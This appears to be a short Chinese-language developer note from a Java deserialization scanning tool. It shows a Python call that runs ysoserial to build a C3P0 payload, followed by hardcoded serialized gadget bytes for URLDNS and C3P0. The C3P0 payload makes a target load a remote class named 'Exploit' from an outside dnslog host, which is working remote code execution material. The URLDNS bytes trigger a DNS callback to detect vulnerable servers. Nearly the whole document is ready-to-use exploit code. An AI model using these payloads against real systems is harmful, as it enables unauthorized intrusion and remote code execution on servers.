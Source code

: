 
## 生成hex字符串方法
```py
import subprocess

ysoserial_path = 'D:\\repos\\ysoserial\\target\\ysoserial-0.0.8-SNAPSHOT-all.jar'
popen = subprocess.Popen(['D:\\repos\\Java\\jdk1.7.0_80\\bin\\java.exe', '-jar', ysoserial_path, 'C3P0', 'http://7777777777.c3p0.dnslog.cn/:Exploit'], stdout=subprocess.PIPE)
print(popen.stdout.read())
```

## 常用gadget的二进制代码
用于dnslog的替换

### URLDNS

```py
import struct

# URLDNS http://7777777777.urldns.qq.dnslog.cn/test
urldns_url   = 'http://{0}.urldns.{1}/test'.format(self.BANNER, self.DOMAIN)
urldns_url_b = urldns_url.encode()
urldns_host  = '{0}.urldns.{1}'.format(self.BANNER, self.DOMAIN)
urldns_host_b= urldns_host.encode()

__bb_URLDNS = b"\xac\xed\x00\x05sr\x00\x11java.util.HashMap\x05\x07\xda\xc1\xc3\x16`\xd1\x03\x00\x02F\x00\nloadFactorI\x00\tthresholdxp?@\x00\x00\x00\x00\x00\x0cw\x08\x00\x00\x00\x10\x00\x00\x00\x01sr\x00\x0cjava.net.URL\x96%76\x1a\xfc\xe4r\x03\x00\x07I\x00\x08hashCodeI\x00\x04portL\x00\tauthorityt\x00\x12Ljava/lang/String;L\x00\x04fileq\x00~\x00\x03L\x00\x04hostq\x00~\x00\x03L\x00\x08protocolq\x00~\x00\x03L\x00\x03refq\x00~\x00\x03xp\xff\xff\xff\xff\xff\xff\xff\xfft" +  struct.pack('>H', len(urldns_host_b)) + urldns_host_b + b"t\x00\x05/testq\x00~\x00\x05t\x00\x04httppxt" + struct.pack('>H', len(urldns_url_b)) + urldns_url_b + b"x"

```

### C3P0
```py
import struct

# http://7777777777.c3p0.qq.dnslog.cn/:Exploit
c3p0_host =  'http://{0}.c3p0.{1}'.format(self.BANNER, self.DOMAIN)
c3p0_host_b= c3p0_host.encode()

__bb_C3P0 = b'\xac\xed\x00\x05sr\x00(com.mchange.v2.c3p0.PoolBackedDataSource\xde"\xcdl\xc7\xff\x7f\xa8\x02\x00\x00xr\x005com.mchange.v2.c3p0.impl.AbstractPoolBackedDataSource\x00\x00\x00\x00\x00\x00\x00\x01\x03\x00\x00xr\x001com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase\x00\x00\x00\x00\x00\x00\x00\x01\x03\x00\x08I\x00\x10numHelperThreadsL\x00\x18connectionPoolDataSourcet\x00$Ljavax/sql/ConnectionPoolDataSource;L\x00\x0edataSourceNamet\x00\x12Ljava/lang/String;L\x00\nextensionst\x00\x0fLjava/util/Map;L\x00\x14factoryClassLocationq\x00~\x00\x04L\x00\ridentityTokenq\x00~\x00\x04L\x00\x03pcst\x00"Ljava/beans/PropertyChangeSupport;L\x00\x03vcst\x00"Ljava/beans/VetoableChangeSupport;xpw\x02\x00\x01sr\x00=com.mchange.v2.naming.ReferenceIndirector$ReferenceSerializedb\x19\x85\xd0\xd1*\xc2\x13\x02\x00\x04L\x00\x0bcontextNamet\x00\x13Ljavax/naming/Name;L\x00\x03envt\x00\x15Ljava/util/Hashtable;L\x00\x04nameq\x00~\x00\nL\x00\treferencet\x00\x18Ljavax/naming/Reference;xppppsr\x00\x16javax.naming.Reference\xe8\xc6\x9e\xa2\xa8\xe9\x8d\t\x02\x00\x04L\x00\x05addrst\x00\x12Ljava/util/Vector;L\x00\x0cclassFactoryq\x00~\x00\x04L\x00\x14classFactoryLocationq\x00~\x00\x04L\x00\tclassNameq\x00~\x00\x04xpsr\x00\x10java.util.Vector\xd9\x97}[\x80;\xaf\x01\x03\x00\x03I\x00\x11capacityIncrementI\x00\x0celementCount[\x00\x0belementDatat\x00\x13[Ljava/lang/Object;xp\x00\x00\x00\x00\x00\x00\x00\x00ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\nppppppppppxt\x00\x07Exploitt' + struct.pack('>H', len(c3p0_host_b)+1) + c3p0_host_b + b'/t\x00\x07exploitppppw\x04\x00\x00\x00\x00xw\x02\x00\x01x'    

```
